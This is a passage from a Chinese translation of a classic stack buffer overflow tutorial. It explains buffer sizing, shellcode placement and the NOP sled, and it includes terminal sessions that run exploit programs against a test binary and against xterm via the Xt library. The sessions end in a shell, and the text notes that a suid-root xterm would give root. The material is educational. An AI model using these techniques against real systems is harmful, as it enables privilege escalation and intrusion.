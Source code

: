 我们所使用的缓冲区大小最好比要使其溢出的缓冲区大100字节左右. 我们在要使其溢出的缓冲区尾部放置shellcode, 为NOP指令留下足够的空间, 仍然使用我们推测的地址来覆盖返回地址. 这里我们要使其溢出的缓冲区大小是512字节, 所以我们使用612字. 现在使用新的破解程序来使我们的测试程序溢出:

```
[aleph1]$ ./exploit3 612
Using address: 0xbffffdb4
[aleph1]$ ./vulnerable $EGG
$
```

哇!一击中的!这个改进成千倍地提高了我们的命中率. 下面在真实的环境中尝试一下缓冲区溢出. 在Xt库上运用我们所讲述的方法. 在例子中, 我们使用xterm(实际上所有连接Xt库的程序都有漏洞). 计算机上要运行X Server并且允许本地的连接. 还要相应设置`DISPLAY`变量.

```
[aleph1]$ export DISPLAY=:0.0
[aleph1]$ ./exploit3 1124
Using address: 0xbffffdb4
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

^C
[aleph1]$ exit
[aleph1]$ ./exploit3 2148 100
Using address: 0xbffffd48
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

Warning: some arguments in previous message were lost
Illegal instruction
[aleph1]$ exit
.
.
.
[aleph1]$ ./exploit4 2148 600
Using address: 0xbffffb54
[aleph1]$ /usr/X11R6/bin/xterm -fg $EGG
Warning: Color name "^1FF

(此处截断多行输出)

Warning: some arguments in previous message were lost
bash$
```

尤里卡! 仅仅几次尝试我们就成功了!如果xterm是带suid root安装的, 我们就已经
得到了一个root shell了.

## 小缓冲区的溢出
